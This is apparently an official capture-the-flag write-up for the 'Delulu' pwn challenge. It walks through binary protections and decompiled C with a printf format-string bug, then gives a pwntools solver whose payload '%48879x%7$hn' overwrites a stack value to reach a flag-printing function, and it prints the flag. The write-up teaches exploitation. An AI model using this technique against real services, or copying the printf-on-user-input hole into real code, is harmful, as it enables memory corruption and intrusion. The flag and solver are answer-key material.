

    	<font size="10">Delulu</font>

​		28<sup>th</sup> January 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 


# Synopsis

Delulu is a very easy difficulty challenge that features `format string vulnerability`, overwriting a variable's value.

# Description

HALT! Recognition protocol initiated. Please present your face for scanning.

## Skills Required

- Basic C.

## Skills Learned

- `fmt bug`.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

All protections are enabled.

The program's interface 



As we can see, the bug is already visible here. There is a `format string bug`, but we do not know how to exploit it yet.

### Disassembly

Starting with `main()`:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe;
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  read(0,&local_38,0x1f);
  printf("\n[!] Checking.. ");
  printf((char *)&local_38);
  if (local_48 == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

As we noticed before, we can see the `fmt bug` here:

```c
printf((char *)&local_38);
```

Apart from that, we can see that there is a `delulu()` function that prints the flag.

```c
void delulu(void)

{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("You managed to deceive the robot, here\'s your new identity: ");
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Our goal is to call this function. The only way to get to it, is by making `local_48 == 0x1337beef` . The problem is that we do not have a `buffer overflow` or any common way to change `local_48` value, which is `0x1337babe`.

```c
local_48 = 0x1337babe;
```

Luckily, we can abuse the `fmt vulnerability` to do so. First of all, we need to find at which index we see the `0x1337babe` value.

```console
The D-LuLu face identification robot will scan you shortly!

Try to deceive it by changing your ID.

>> %p %p %p %p %p %p %p %p %p

[!] Checking.. 0x7fff75f6abe0 (nil) 0x7f769c914887 0x10 0x7fffffff 0x1337babe 0x7fff75f6cd00 0x7025207025207025 0x2520702520702520

[-] ALERT ALERT ALERT ALERT
```

We see that the `6th` element is the value `0x133babe`, then a stack address and then our input. So, we need to change the last 2 bytes of `0x133babe` -> `0x1337beef` and we we will pass the comparison. We have to write `0xbeef` characters to the 7th element of the stack to achieve that.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process('./delulu')
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')


def get_flag():
  pause(1)
  r.sendline('cat flag*')
  print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')

r.sendlineafter('>> ', '%48879x%7$hn')
r.recvuntil('HTB')
print(f'Flag --> HTB{r.recvline().strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Flag --> HTB{m45t3r_0f_d3c3pt10n}
```

